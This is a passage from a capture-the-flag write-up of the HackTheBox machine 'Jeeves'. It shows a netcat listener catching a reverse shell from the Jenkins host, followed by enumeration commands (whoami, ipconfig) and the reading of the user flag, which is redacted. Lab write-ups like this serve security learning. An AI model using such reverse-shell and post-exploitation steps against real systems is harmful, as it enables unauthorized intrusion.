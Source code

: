![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Jeeves/images/Pasted%20image%2020230526161302.png)

```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Jeeves)-[2023.05.26|16:11:24(HKT)]
└> rlwrap -cAr nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.63] 49677
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami && ipconfig /all
whoami && ipconfig /all
jeeves\kohsuke

Windows IP Configuration

   Host Name . . . . . . . . . . . . : Jeeves
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) 82574L Gigabit Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-03-3A
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.10.10.63(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 10.10.10.2
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap.{4079B648-26D5-4A56-9108-2A55EC5CE6CA}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter #3
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
```

I'm user `kohsuke` in host `jeeves`!

**user.txt:**
```shell
C:\Users\Administrator\.jenkins>cd c:\users\kohsuke\desktop
cd c:\users\kohsuke\desktop

c:\Users\kohsuke\Desktop>type user.txt
type user.txt
{Redacted}
c:\Users\kohsuke\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.10.63
```